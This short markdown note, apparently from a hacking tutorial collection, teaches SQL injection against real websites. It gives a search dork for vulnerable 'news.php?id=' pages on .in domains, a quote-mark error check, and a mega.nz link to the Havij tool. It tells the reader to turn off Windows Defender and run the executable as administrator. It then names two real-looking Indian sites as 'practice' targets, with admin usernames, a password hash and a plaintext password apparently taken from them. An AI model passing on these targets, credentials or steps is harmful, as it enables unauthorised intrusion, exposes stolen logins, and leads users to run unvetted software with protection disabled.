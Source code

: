 # 6)Database SQL Injection

Dork:

news.php?id= site:.in
gallery, event, media, image, video

SQL Error Check : %27, '

Software : Havij

Havij link: https://mega.nz/#!pKhEgISL!bqc38_osh3Km7moWC6AAJhwAZxIiCoP8pMM7En8Di_0

N.B:

1. Turn off "Real-time Protection" from Windows Defender
2. Open Havij.exe as Administrator

Practice:

1. site with id link: http://heritageaviation.in/news.php?id=1
   username: admin
   password: $H$BZxvsBgwHo/Vzf/KbOvZrfEUxcnuCz0

2) site with id link: http://math4all.in/news.php?id=6
   username: Admin
   password: ikrana@123

